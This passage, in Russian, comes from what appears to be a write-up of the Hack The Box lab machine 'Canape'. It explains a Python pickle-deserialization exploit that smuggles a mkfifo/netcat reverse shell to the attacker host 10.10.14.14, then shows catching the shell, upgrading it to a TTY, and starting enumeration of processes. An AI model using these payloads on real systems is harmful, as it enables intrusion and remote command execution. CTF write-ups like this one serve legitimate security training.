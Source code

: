 Что здесь происходит:
  1. Реверс-шелл стандартный для *bash*'а за тем исключением, что в начале было прописано имя персонажа (`c=krusty`), чтобы обойти проверку на сервере.
  2. Создается объект класса `Payload`, с реверс-шеллом в качестве инициализационного значения. Класс `Payload` позволяет генерировать полезные нагрузки, которые будут выполнены интерпретатором при десериализация упакованных данных за счет перегрузки метода `__reduce__()`.
  3. Вычисляется индекс разбиения сериализованных данных: по левую сторону — заглушка для проверяющего механизма сайта (переменная с именем персонажа), по правую — то, что нужно непосредственно выполнить.
  4. Подготавливается и отправляется первый POST-запрос, создающий бэкдор.
  5. Подготавливается и отправляется второй POST-запрос, провоцирующий запуск бэкдора.

В итоге запустив скрипт:
```text
root@kali:~# python canape_shell.py
POST 200 http://10.10.10.70:80/submit {'quote': "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 31337 >/tmp/f'\np2\ntRp3\n.", 'character': "cposix\nsystem\np1\n(S'c=krusty;"}
POST 500 http://10.10.10.70:80/check {'id': 'a7055ae5d0703e84ea83e69eaef172b2'}
```

Ловим шелл на локальном слушателе и прокачиваем его до tty'я:
```text
root@kali:~# nc -nlvvp 31337
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::31337
Ncat: Listening on 0.0.0.0:31337
Ncat: Connection from 10.10.10.70.
Ncat: Connection from 10.10.10.70:54102.

/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@canape:/$ ^Z
[1]  + 24297 suspended  nc -nlvvp 31337
root@kali:~# stty raw -echo; fg 
[1]  + 24297 continued  nc -nlvvp 31337

www-data@canape:/$
www-data@canape:/$ stty cols 2000

www-data@canape:/$ whoami
www-data

www-data@canape:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@canape:/$ uname -a
Linux canape 4.4.0-119-generic #143-Ubuntu SMP Mon Apr 2 16:08:24 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Осмотримся:
```text
www-data@canape:/$ ps auxww
...
root        604  0.0  0.0   4240   660 ?        Ss   13:48   0:00 runsv couchdb
root        606  0.0  0.0   4384   680 ?        S    13:48   0:00 svlogd -tt /var/log/couchdb
...
homer       607  0.7  3.2 649340 32732 ?        Sl   13:48   0:05 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
...


www-data@canape:/$ netstat -anlpo | grep LIST
```